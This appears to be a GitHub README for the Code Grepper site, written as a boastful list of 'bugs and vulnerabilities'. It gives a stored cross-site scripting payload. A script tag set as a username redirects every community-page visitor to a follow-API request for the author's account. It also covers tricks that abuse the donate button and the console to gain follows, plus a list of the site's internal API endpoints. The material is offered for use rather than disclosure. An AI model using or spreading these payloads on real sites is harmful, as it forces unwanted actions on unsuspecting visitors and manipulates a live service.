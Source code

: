 # Code Grepper

## Bugs & Vulnerabilities

**Follow Yourself:** Go to your **[profile][Profile]** > Open Console > paste the code below > refresh page.

```js
    document.getElementById("followButton").click();
```

I don't know if this is a feature or bug but you can manipulate the **Donate** button with an auto follower, Try clciking the donate button on my [profile](https://www.codegrepper.com/app/profile.php?id=98467). Put the follow link in your doante button.

```yaml
    /api/follow.php?follow_user_id=98467&follow=1
```

Get follows 100/hour Set your fun name to the code below. This bug will redirect **EVERYONE** visiting the community page to a follow link which will give you a follow(really dangerous). If you are now trapped in that loop just install the **[Redirect Blocker](https://chrome.google.com/webstore/detail/redirect-blocker/kjkidapfdhbcllgoaoobklapepffmcca/related?hl=en)** Extension and change your username. Thats why they call me hacker 😎😎.

```html
    <script>window.location.href = `/api/follow.php?follow_user_id=98467&follow=1`</script>
```

## APIs

Code Grepper APIs(just for researching -__-)

```yaml
https://www.codegrepper.com/search.php?q=
```

```yaml
https://www.codegrepper.com/api/send_feedback.php
```

```yaml
https://www.codegrepper.com/api/update_answer.php
```

```yaml
https://www.codegrepper.com/api/save_answer.php
```

```yaml
https://www.codegrepper.com/api/save_comment.php
```

```yaml
https://www.codegrepper.com/app/profile.php?id=98467
```

```yaml
https://www.codegrepper.com/api/follow.php?follow_user_id=98467&follow=1
```

```yaml
https://www.codegrepper.com/api/get_answers_comments.php?aid=287391&u=98467
```

Follow on [Code Grepper][Profile]

[Profile]: https://www.codegrepper.com/app/profile.php?id=98467
